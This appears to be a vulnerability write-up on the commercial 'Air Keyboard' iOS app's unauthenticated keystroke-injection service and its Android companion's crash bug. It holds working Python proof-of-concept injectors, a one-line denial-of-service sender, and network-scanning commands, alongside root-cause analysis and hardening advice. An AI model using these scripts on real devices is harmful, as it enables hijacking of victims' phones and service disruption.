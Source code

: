 # Air Keyboard Remote Input Injection (Unauthenticated TCP / WebSocket Listener)


## TL;DR

The iOS version of the commercial **“Air Keyboard”** application (App Store ID 6463187929) exposes a local-network service that **accepts keystroke frames without any authentication or origin verification**. Depending on the version installed the service is either:

* **≤ 1.0.4**  – raw TCP listener on **port 8888** that expects a 2-byte length header followed by a *device-id* and the ASCII payload.
* **≥ 1.0.5 (June 2025)**  – **WebSocket** listener on the *same* port (**8888**) that parses **JSON** keys such as `{"type":1,"text":"…"}`.

Any device on the same Wi-Fi / subnet can therefore **inject arbitrary keyboard input into the victim’s phone, achieving full remote interaction hijacking**.  
A companion Android build listens on **port 55535**. It performs a weak AES-ECB handshake but crafted garbage still causes an **unhandled exception inside OpenSSL**, crashing the background service (**DoS**).

> The vulnerability is **still unpatched at the time of writing (July 2025)** and the application remains available in the App Store.

---

## 1. Service Discovery

Scan the local network and look for the two fixed ports used by the apps:

```bash
# iOS (unauthenticated input-injection)
nmap -p 8888 --open 192.168.1.0/24  

# Android (weakly-authenticated service)
nmap -p 55535 --open 192.168.1.0/24
```
```
On Android handsets you can identify the responsible package locally:

```bash
adb shell netstat -tulpn | grep 55535      # no root required on emulator
# rooted device / Termux
netstat -tulpn | grep LISTEN
ls -l /proc/<PID>/cmdline                 # map PID → package name
```
```
On **jailbroken iOS** you can do something similar with `lsof -i -nP | grep LISTEN | grep 8888`.

---

## 2. Protocol Details (iOS)

### 2.1  Legacy (≤ 1.0.4) – custom binary frames

```
[length (2 bytes little-endian)]
[device_id (1 byte)]
[payload ASCII keystrokes]
```
```
The declared *length* includes the `device_id` byte **but not** the two-byte header itself.

### 2.2  Current (≥ 1.0.5) – JSON over WebSocket

Version 1.0.5 silently migrated to WebSockets while keeping the port number unchanged. A minimal keystroke looks like:

```json
{
  "type": 1,              // 1 = insert text, 2 = special key
  "text": "open -a Calculator\n",
  "mode": 0,
  "shiftKey": false,
  "selectionStart": 0,
  "selectionEnd": 0
}
```
```
No handshake, token or signature is required – the first JSON object already triggers the UI event.

---

## 3. Exploitation PoC

### 3.1  Targeting ≤ 1.0.4 (raw TCP)

```python
#!/usr/bin/env python3
"""Inject arbitrary keystrokes into Air Keyboard ≤ 1.0.4 (TCP mode)"""
import socket, sys

target_ip  = sys.argv[1]                 # e.g. 192.168.1.50
keystrokes = b"open -a Calculator\n"    # payload visible to the user

frame  = bytes([(len(keystrokes)+1) & 0xff, (len(keystrokes)+1) >> 8])
frame += b"\x01"                        # device_id = 1 (hard-coded)
frame += keystrokes

with socket.create_connection((target_ip, 8888)) as s:
    s.sendall(frame)
print("[+] Injected", keystrokes)
```
```
### 3.2  Targeting ≥ 1.0.5 (WebSocket)

```python
#!/usr/bin/env python3
"""Inject keystrokes into Air Keyboard ≥ 1.0.5 (WebSocket mode)"""
import json, sys, websocket  # `pip install websocket-client

target_ip = sys.argv[1]
ws        = websocket.create_connection(f"ws://{target_ip}:8888")
ws.send(json.dumps({
    "type": 1,
    "text": "https://evil.example\n",
    "mode": 0,
    "shiftKey": False,
    "selectionStart": 0,
    "selectionEnd": 0
}))
ws.close()
print("[+] URL opened on target browser")
```
```
*Any printable ASCII — including line-feeds, tabs and most special keys — can be sent, giving the attacker the same power as physical user input: launching apps, sending IMs, opening malicious URLs, toggling settings, etc.*

---

## 4. Android Companion – Denial-of-Service

The Android port (55535) expects a **4-character password encrypted with a hard-coded AES-128-ECB key** followed by a random nonce.  Parsing errors bubble up to `AES_decrypt()` and are not caught, terminating the listener thread.  A single malformed packet therefore suffices to keep legitimate users disconnected until the process is relaunched.

```python
import socket
socket.create_connection((victim, 55535)).send(b"A"*32)  # minimal DoS
```
```
---

## 5. Related Apps – A Recurring Anti-Pattern

Air Keyboard is **not an isolated case**. Other mobile “remote keyboard/mouse” utilities have shipped with the very same flaw:

* **Telepad ≤ 1.0.7** – CVE-2022-45477/78  allow unauthenticated command execution and plain-text key-logging.
* **PC Keyboard ≤ 30** – CVE-2022-45479/80  unauthenticated RCE & traffic snooping.
* **Lazy Mouse ≤ 2.0.1** – CVE-2022-45481/82/83  default-no-password, weak PIN brute-force and clear-text leakage.

These cases highlight a systemic neglect of **network-facing attack surfaces on mobile apps**.

---

## 6. Root Causes

1. **No origin / integrity checks** on incoming frames (iOS).
2. **Cryptographic misuse** (static key, ECB, missing length validation) and **lack of exception handling** (Android).
3. **User-granted Local-Network entitlement ≠ security** – iOS requests runtime consent for LAN traffic, but it doesn’t substitute proper authentication.

---

## 7. Hardening & Defensive Measures

Developer recommendations:

* Bind the listener to **`127.0.0.1`** and tunnel over **mTLS** or **Noise XX** if remote control is needed.
* Derive **per-device secrets during onboarding** (e.g., QR code or Pairing PIN) and enforce *mutual* authentication before processing input.
* Adopt **Apple Network Framework** with *NWListener* + TLS instead of raw sockets.
* Implement **length-prefix sanity checks** and structured exception handling when decrypting or decoding frames.

Blue-/Red-Team quick wins:

* **Network hunting:** `sudo nmap -n -p 8888,55535 --open 192.168.0.0/16` or Wireshark filter `tcp.port == 8888`.
* **Runtime inspection:** Frida script hooking `socket()`/`NWConnection` to list unexpected listeners.
* **iOS App Privacy Report (Settings ▸ Privacy & Security ▸ App Privacy Report)** highlights apps that contact LAN addresses – useful for spotting rogue services.
* **Mobile EDRs** can add simple Yara-L rules for the JSON keys `"selectionStart"`, `"selectionEnd"` inside clear-text TCP payloads on port 8888.

---

## Detection Cheat-Sheet (Pentesters)

```bash
# Locate vulnerable devices in a /24 and print IP + list of open risky ports
nmap -n -p 8888,55535 --open 192.168.1.0/24 -oG - \
  | awk '/Ports/{print $2 "  " $4}'

# Inspect running sockets on a connected Android target
adb shell "for p in $(lsof -PiTCP -sTCP:LISTEN -n -t); do \
  echo -n \"$p → \"; cat /proc/$p/cmdline; done"
```
```
---

## References

- [[https://www.exploit-db.com/exploits/52333|Exploit-DB 52333 – Air Keyboard iOS App 1.0.5 Remote Input Injection]]  
- [[https://www.mobile-hacker.com/2025/07/17/remote-input-injection-vulnerability-in-air-keyboard-ios-app-still-unpatched/|Mobile-Hacker Blog (17 Jul 2025) – Remote Input Injection Vulnerability in Air Keyboard iOS App Still Unpatched]]

